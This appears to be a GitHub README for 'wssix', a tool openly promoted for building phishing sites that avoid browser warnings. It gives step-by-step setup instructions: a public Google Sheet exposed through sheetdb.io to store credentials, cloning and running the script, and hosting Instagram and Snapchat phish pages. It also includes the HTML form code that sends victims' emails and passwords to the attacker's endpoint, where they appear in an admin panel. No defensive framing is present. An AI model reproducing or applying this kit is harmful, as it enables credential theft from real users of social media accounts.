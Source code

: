 
# **wssix**
wssix helps you to create your own phishing tool.

## Benefits of this tool

- Admin panel 
- 24/7 Online 
- No phishing warnings on webpage
- Create unlimited custom phish websites


## **CREATING API key** ...

- First you have to create blank google sheet.
- Make this sheet public and inside this sheet type email and password on first two cells like this : ( !! just types these words not your email and password !! )
 ________________    _______________
|_____EMAIL______| |___PASSWORD____|
![](https://raw.githubusercontent.com/Harsh-bash/wssix/aurora/images/screenshot.png)



- Now go to [sheetdb.com](https://sheetdb.io/). Create account and click on create new api and inside this paste your google sheet url ( which we created in first step ).
 
- After this your api key is ready. Api is looks like 

```
https://sheetdb.io/api/v1/xvxbpk*******
```




## 
## **Setup Admin and Phishing Panel**  ...

- Clone this repository
```bash
git clone https://github.com/Harsh-bash/wssix
```
- Go to wssix folder
```bash
cd wssix
```
- Now, run script.py file and enter your api key as an argument . For example:
```bash
python3 script.py YOUR-API-KEY
```
- Your files are ready now !!!!

Now host **Admin** folder and **client** folder.

For hosting : 

- [**Netlify**](https://netlify.com/)
- [**Render**](https://render.com/)

**After hosting client folder you can access phish pages with /**
```
https://*******.***/instagram
```
```
https://*******.***/snapchat
```
### You can see phished credentials on admin panel.

## **How this work!!**

**wssix use [**google sheets**](https://render.com/) for database and [**sheetdb.io**](https://sheetdb.io) for api.**

To send data from your **HTML FORM** to google sheets
- set you form tag **id,method,action and submit** as follow:

```javascript
<form id="sheetdb-form" method="post" action="https://YOUR_SHEETDB_API">
```

- Set **name** in username input tag as follow : 
```javascript
name="data[email]"
```

- Set **name** in password input tag as follow : 
```javascript
name="data[password]"
```

- Set Submit button as follow : 
```javascript
type="submit" name="submit"
```

**Now all data from this form is save in your google sheets and you can access it with this admin panel.**

